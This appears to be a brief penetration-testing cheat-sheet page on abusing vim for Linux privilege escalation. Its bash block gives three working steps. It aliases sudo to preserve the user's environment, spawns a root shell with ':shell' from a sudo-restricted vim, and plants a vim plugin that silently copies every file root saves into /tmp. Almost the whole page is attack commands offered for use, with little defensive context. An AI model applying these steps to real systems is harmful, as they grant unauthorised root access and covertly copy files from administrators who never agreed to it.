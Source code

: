 # VIM Tricks

This only works for Ubuntu and RHEL flavored distros, Debian uses a root users VIM configuration.&#x20;

```bash
echo 'alias sudo="sudo -E"' >> .bashrc   ## This tells sudo to preserve the enviromnment 

## If a user has sudo permissions limited to vim it's possible priv esc to root.
sudo vim file_I_Have_Sudo_access_To.txt
:shell

## Copy any file they modify with VIM using elevated privs
mkdir -p ~/.vim/plugin
vi ~/.vim/plugin/settings.vim
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/output_vim.txt
:endif  ## save the file.
```
